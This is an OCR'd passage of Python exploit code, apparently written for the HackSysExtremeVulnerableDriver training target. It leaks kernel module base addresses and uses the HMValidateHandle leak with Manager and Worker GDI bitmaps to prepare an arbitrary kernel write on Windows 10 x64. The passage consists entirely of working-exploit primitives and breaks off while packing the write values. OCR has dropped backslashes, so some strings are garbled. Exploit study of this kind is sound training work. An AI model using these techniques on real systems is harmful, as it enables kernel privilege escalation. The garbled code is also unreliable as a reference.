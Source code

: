 ```
    ctypes.memmove(addressof(module_count), module_count_string, sizeof(module_count))

    # Marshal each module information and store it in a dictionary&lt;name, SYSTEM_MODULE_INFORMATION&gt;
    system_information = create_string_buffer(system_information.raw[8:])
    for x in range(module_count.value):
        smi = SYSTEM_MODULE_INFORMATION()
        temp_system_information = create_string_buffer(system_information.raw[sizeof(smi) * x: sizeof(smi) * (x+1)])
        ctypes.memmove(addressof(smi), temp_system_information, sizeof(smi))
        module_name =  smi.FullPathName.split('\')[-1]
        modules[module_name] = smi

    #debug_print ("rn[+] NtQuerySystemInformation():")

    # Get base addresses and return them in a list
    base_addresses = []
    for input_module in input_modules:
        try:
            base_address = modules[input_module].ImageBase
            #debug_print ("t[-] %s base address: 0x%X" % (input_module, base_address))
            base_addresses.append(base_address)
        except:
            base_addresses.append(0)

    return base_addresses

def main():
    global hManager
    global hWorker

    hevDevice = kernel32.CreateFileA("\\.\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

    if not hevDevice or hevDevice == -1:
        print "[-] Couldn't get Device Driver handle."
        sys.exit(0)

    findHMValidateHandle()

    debug_print ("[&gt;] Setting up Manager Bitmap:")
    debug_print ("t[+] Allocating and Freeing Windows")
    dup_address = alloc_free_windows()
    dwReturn = c_void_p()
    gdi32.CreateBitmap.restype = HBITMAP
    hManager = gdi32.CreateBitmap(0x100, 0x6D, 1, 0x1, dwReturn) # Win10x64RS2 size = 0x1020
    debug_print ("t[+] Manager Bitmap handle: 0x%X" % hManager)
    hManager_pvscan0_off = dup_address + 0x50
    debug_print ("t[+] Manager bitmap pvscan0 offset: 0x%X" % hManager_pvscan0_off)

    debug_print ("[&gt;] Setting up Worker Bitmap:")
    debug_print ("t[+] Allocating and Freeing Windows")
    dup_address = alloc_free_windows()
    dwReturn = c_void_p()
    gdi32.CreateBitmap.restype = HBITMAP
    hWorker = gdi32.CreateBitmap(0x100, 0x6D, 1, 0x1, dwReturn) # size = 0x1020
    debug_print ("t[+] Worker Bitmap handle: 0x%X" % hWorker)
    hWorker_pvscan0_off = dup_address + 0x50
    debug_print ("t[+] Worker bitmap pvscan0 offset: 0x%X" % hWorker_pvscan0_off)


    write_where = struct.pack("&lt;Q", hManager_pvscan0_off)
    write_what_object = struct.pack("&lt;Q", hWorker_pvscan0_off)
```